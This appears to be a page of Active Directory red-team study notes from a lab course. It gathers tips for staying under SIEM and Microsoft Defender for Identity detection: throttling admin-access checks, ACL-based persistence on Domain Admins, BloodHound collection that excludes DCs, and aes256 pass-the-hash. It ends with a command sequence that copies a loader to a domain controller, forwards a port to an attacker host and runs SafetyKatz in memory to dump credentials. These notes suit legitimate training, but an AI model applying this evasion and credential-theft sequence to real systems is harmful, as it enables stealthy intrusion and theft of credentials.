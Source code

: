 # To Remember

* "Enterprise Admins" Group will only be present on the forest root. So to query Enterprise Admins group use `Get-DomainGroup -Name "Enterprise Admins" -Domain <forest_root_domain>`
* `Invoke-CheckLocalAdminAccess` will leave **4624 and 4634** security event ID's on the system and will leave 4672 on successful admin login. If we run this on all the local systems it would be too noisy and the SIEM's can detect this. - So execute this only with a limited count and then complete the full count. (maybe use 100 machines at a time in a total of 1000 machines). Also use jitter.
* `whoami` commands are prone to detection
* Adding our compromised user into "Domain Admins" group will raise alarms, so instead we can add an ACL giving our compromised user all the access on "Domain Admins" group. So then we'll have full control over Domain Admins group even though if we aren't a member of the group. But the problem here is there is a sanitization process i.e, "Security Description Propagator or SD Prop" which means every 1 hr (Frequency can be customized) all the Protected groups ACL's are overwritten with "AdminSDHolder" ACL's.
* Adding users/editing the local admins group on a system is very noisy.
* When a domain/forest has external trust then we can perform all the authenticated enums/actions like an authenticated user in the external forest/domain does.
* The External Trust isn't transitive. So if there is a `Domain A` in `Forest A` and `Domain B, C in Forest B` with a `two way trust b/w Domain B,C` and there is an `external trust b/w Domain A of Forest A and Domain B of Forest B` then `Domain A of Forest A doesn't have access to Domain C of Forest B`&#x20;
  *

      <figure><img src="https://remnote-user-data.s3.amazonaws.com/AF6aH6CtZUHWQFcXgECNptKjA94Xhc7-wNQKPyGtqLOTQe8I7kTdPDJnln36HIbTVXfohIm58vkIfUN3zIMEbxsf4gTEb56KIu0B_tbhiqjxqxI2MjaT85mDNUVL051O.png" alt=""><figcaption></figcaption></figure>
* While running Bloodhound Ingestors if we specify collection method as all then it enumerates/lists the sessions on the DC which the MDI triggers as malicious and triggers alarms, so it is recommended to specify `-ExcludeDC` flag to reduce the chances of triggering alarms ‒ **Since the sessions on DC aren't enumerated it can lead to losing few results on "Shortest Path to DC" in Bloodhound**
* **Extracting creds from LSASS should be the last vector to try cause it is more prone to detection**
* While using pass the hash or any attacks always use `aes256` and `not rc4 (if possible)`. Cause the encryption downgrade from `aes256 to rc4 will be flagged by the MDI`
*   Whenever you want to execute any binary or exe, it is recommended instead of directly downloading it to the disk of the remote machine, it is recommended to load it using the `loader.exe`

    * First copy the loader onto the remote machine - `echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`
    * Connect to the remote machine using winrs or PS Remoting or anything - Basically get a shell
    * Create a port forward onto your machine - `netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1`
    * Now using `loader.exe` load the remote binary/exe - `Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe`

